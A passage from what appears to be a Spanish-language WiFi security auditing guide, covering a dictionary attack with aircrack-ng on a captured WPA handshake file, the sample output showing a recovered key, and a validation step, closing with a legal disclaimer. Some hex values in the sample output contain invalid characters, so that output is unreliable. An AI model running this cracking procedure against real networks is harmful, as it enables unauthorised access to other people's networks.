 ***

### 6. Ataque de Diccionario

Con el archivo `.cap` en nuestro poder, procedemos a intentar descifrar la clave de la red utilizando un diccionario de contraseñas:

```shell
sudo aircrack-ng -b 01:9C:14:CO:29:R8 -w <WORDLIST> auditoria.cap
```

Cuando se encuentre la contraseña, se mostrará un mensaje como el siguiente:

```
Reading packets, please wait...
Opening auditoria.cap
Read 13707 packets.

1 potential targets

                               Aircrack-ng 1.7 

      [00:00:00] 6/7 keys tested (285.31 k/s) 

      Time left: 0 seconds                                      85.71%

                           KEY FOUND! [ robertocarlos ]


      Master Key     : D7 AF 77 96 6D 09 B8 D8 6C 8F 3F 4E A1 1E TF FR 
                       F1 HY 03 1D C6 90 64 G6 36 57 95 12 84 08 4A 59 

      Transient Key  : D4 80 66 70 92 FD 72 56 2D 15 A2 DB 05 00 18 A4 
                       8D E3 60 5F BB 2E AE 55 57 55 06 95 64 90 70 E9 
                       1E 6C 3F 5D 55 9B A3 0C 83 78 B9 B9 7E BC D3 90 
                       D2 05 21 75 E0 A4 6A 36 20 CC F9 9D 1E 00 00 00 

      EAPOL HMAC     : 17 0F A7 4C ED FG 5E 90 A7 67 BB 89 10 B8 2D 37
```

Con esto veremos que la contraseña seria `robertocarlos` del `Wifi` `MIWIFI_test`, por lo que habremos obtenido de contraseña de forma correcta.

***

### 7. Validación

Finalmente, probamos la contraseña encontrada (`robertocarlos`) conectándonos manualmente a la red objetivo para comprobar su validez, lo cual sera exitoso.

***

> ⚠️ **Nota Legal**: Esta guía tiene fines **educativos** y de **auditoría autorizada** exclusivamente. El uso no autorizado de estas técnicas en redes ajenas constituye un delito según la legislación vigente.
